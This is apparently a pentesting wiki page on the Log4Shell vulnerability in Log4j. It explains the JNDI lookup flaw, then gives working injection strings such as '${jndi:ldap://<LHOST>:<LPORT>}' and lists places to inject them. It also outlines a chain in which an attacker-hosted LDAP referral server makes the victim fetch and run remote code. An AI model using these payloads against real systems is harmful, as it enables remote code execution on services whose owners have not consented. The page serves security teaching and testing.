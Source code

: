 # log4shell

## Theory

The vulnerability is introduced in Log4j because it supports a [**special syntax**](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) in the form `${prefix:name}` where `prefix` is one of a number of different [**Lookups**](https://logging.apache.org/log4j/2.x/manual/lookups.html) where `name` should be evaluated. For example, `${java:version}` is the current running version of Java.

In [**LOG4J2-313**](https://issues.apache.org/jira/browse/LOG4J2-313) added a `jndi` Lookup as follows: “The JndiLookup allows variables to be retrieved via JNDI. By default the key will be prefixed with java:comp/env/, however if the key contains a **":" no prefix will be added**.”

With a **: present** in the key, as in `${jndi:ldap://example.com/a}` there’s **no prefix** and the **LDAP server is queried for the object**. And these Lookups can be used in both the configuration of Log4j as well as when lines are logged.

Therefore, the only thing needed to get RCE a **vulnerable version of Log4j processing information controlled by the user**. And because this is a library widely used by Java applications to log information (Internet facing applications included) it was very common to have log4j logging for example HTTP headers received like the User-Agent. However, log4j is **not used to log only HTTP information but any input** and data the developer indicated.

## Practice

### Detection

You can simply supply HTTP GET variables or parameters where you suspect they will be processed and parsed by log4j. All that is needed is this single line of text:

```bash
${jndi:ldap://<LHOST>:<LPORT>} # Ex: ${jndi:ldap://10.10.10.10:443}
${jndi:rmi://<LHOST>:<LPORT>}
```

Other locations you might supply this JNDI syntax:

* Input boxes, user and password login forms, data entry points within applications
* HTTP headers such as `User-Agent`, `X-Forwarded-For`, `X-Api-Version`, or other customizable headers
* **Any place for user-supplied data**

If when entering the payload we see that we receive a connection by **nc**, then we can confirm that it is vulnerable.

### Concept

We will utilize a open-source and public utility to stage an "**LDAP Referral Server**". This will be used to essentially redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target. This breaks down like so:

1. `${jndi:ldap://attackerserver:1389/Resource}` -> reaches out to our LDAP Referral Server
2. LDAP Referral Server springboards the request to a secondary `http://attackerserver/resource`
3. The victim retrieves and executes the code present in `http://attackerserver/resource`
